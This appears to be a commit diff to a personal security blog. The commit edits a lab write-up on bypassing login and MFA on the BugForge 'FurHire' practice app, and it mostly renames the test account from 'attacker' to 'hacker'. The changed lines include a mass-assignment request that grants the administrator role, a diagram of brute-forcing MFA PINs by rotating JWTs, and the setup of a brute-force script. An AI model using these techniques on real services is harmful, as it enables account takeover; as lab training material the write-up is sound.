

Before and after one commit to d4rkto0th/d4rkto0th.github.io, a Jekyll site: the page built from labs/webapp/FurHire MFA Bypass (Mass Assignment, MFA Brute Force).md, in a window 1280 px wide and 1400 px high, scrolled down 3503 px. Shown: the whole window at 96% size, without its empty margins (190-1089 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
update furhire mass

````diff
--- a/labs/webapp/FurHire MFA Bypass (Mass Assignment, MFA Brute Force).md
+++ b/labs/webapp/FurHire MFA Bypass (Mass Assignment, MFA Brute Force).md
@@ -39,7 +39,7 @@ Bypass authentication and MFA controls to access the admin panel and retrieve th
 URL: https://lab-1772235076111-2pzdfx.labs-app.bugforge.io
 
 # Credentials (self-registered via mass assignment)
-Username: attacker
+Username: hacker
 Password: password
 Role: administrator
 ```
@@ -85,17 +85,17 @@ Role: administrator
 
 ```
 ┌─────────────────┐     ┌──────────────────┐     ┌─────────────────┐
-│  POST /api/      │     │  POST /api/login  │     │  POST /api/mfa/ │
-│  register        │────▶│                   │────▶│  verify         │
-│                  │     │  Returns JWT +    │     │                 │
-│  role:           │     │  needsOnboarding  │     │  12 attempts    │
-│  "administrator" │     │                   │     │  per JWT        │
+│ POST /api/      │     │ POST /api/login  │     │  POST /api/mfa/ │
+│ register        │────▶│                  │────▶│  verify         │
+│                 │     │ Returns JWT +    │     │                 │
+│ role:           │     │ needsOnboarding  │     │  12 attempts    │
+│ "administrator" │     │                  │     │  per JWT        │
 └─────────────────┘     └──────────────────┘     └────────┬────────┘
                                                           │
                               ┌────────────────┐          │ Lockout?
-                              │  Re-login for   │◀─────────┘ Rotate!
-                              │  fresh JWT +    │
-                              │  new PIN        │──────────┐
+                              │  Re-login for  │◀─────────┘ Rotate!
+                              │  fresh JWT +   │
+                              │  new PIN       │──────────┐
                               └────────────────┘          │
                                                           ▼
                                                 ┌─────────────────┐
@@ -129,8 +129,8 @@ Content-Type: application/json
 
 {
     "role": "administrator",
-    "username": "attacker",
-    "email": "attacker@test.com",
+    "username": "hacker",
+    "email": "test@test.com",
     "full_name": "admin",
     "password": "password"
 }
@@ -142,8 +142,8 @@ Content-Type: application/json
     "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...",
     "user": {
         "id": 10,
-        "username": "attacker",
-        "email": "attacker@test.com",
+        "username": "hacker",
+        "email": "test@test.com",
         "full_name": "admin",
         "role": "administrator"
     },
@@ -162,7 +162,7 @@ POST /api/login HTTP/1.1
 Host: lab-1772235076111-2pzdfx.labs-app.bugforge.io
 Content-Type: application/json
 
-{"username":"attacker","password":"password"}
+{"username":"hacker","password":"password"}
 ```
 
 ### Step 3: Identify MFA Weakness
@@ -376,7 +376,7 @@ BASE_URL = "https://lab-1772235076111-2pzdfx.labs-app.bugforge.io"
 LOGIN_URL = f"{BASE_URL}/api/login"
 MFA_URL = f"{BASE_URL}/api/mfa/verify"
 
-CREDS = {"username": "attacker", "password": "password"}
+CREDS = {"username": "hacker", "password": "password"}
 BATCH_SIZE = 12      # attempts per JWT
 THREADS = 5          # parallel workers
 ROLLBACK = 5         # rewind on 403
````
Also changed, not shown: other parts of labs/webapp/FurHire MFA Bypass (Mass Assignment, MFA Brute Force).md (+1 -1 lines).
